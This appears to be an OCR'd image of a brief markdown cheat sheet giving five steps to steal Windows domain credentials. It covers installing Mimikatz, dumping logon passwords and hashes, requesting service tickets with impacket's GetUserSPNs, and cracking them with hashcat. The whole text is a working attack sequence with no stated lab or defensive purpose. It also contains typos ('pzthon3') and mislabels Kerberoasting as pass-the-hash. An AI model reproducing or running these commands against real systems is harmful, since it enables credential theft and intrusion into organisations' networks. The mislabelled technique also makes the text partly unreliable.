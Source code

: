 1. Obtain Adminpriveleges and install Mimikatz
2. Max out the access level: <code> privilege::debug </code>
3. Dump local credentials and hashes: <code> sekurlsa::logonPasswords </code>
4. Use pass the hash with GetUserSPNs from impacket: <code> pzthon3 GetUserSPNs.py -request -dc-ip 192.168.xxx.xxx FQDN/user  </code>
5. Crack the obtained SPN with hash cat:  <code> hashcat -m 13100 -a 0 spn.txt /usr/share/wordlists/sqlmap.txt  </code>
 

